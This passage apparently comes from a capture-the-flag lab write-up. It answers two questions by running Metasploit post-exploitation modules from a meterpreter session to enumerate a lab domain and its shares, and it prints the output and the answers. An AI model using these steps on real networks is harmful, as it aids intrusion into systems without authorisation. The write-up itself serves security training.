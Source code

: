 &nbsp;

### Question 2

What is the target doamain?

answer:  FLASH

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > set session 1
session => 1
msf6 post(windows/gather/enum_domain) > run

[+] Domain FQDN: FLASH.local
[+] Domain NetBIOS Name: FLASH
[+] Domain Controller: ACME-TEST.FLASH.local (IP: 10.10.208.39)
[*] Post module execution completed
msf6 post(windows/gather/enum_domain) >  
```

&nbsp;

### Question 3

What is the name of the share likely created by the user?

answer: speedster

```shell
msf6 post(windows/gather/enum_domain) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.208.39)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed

```

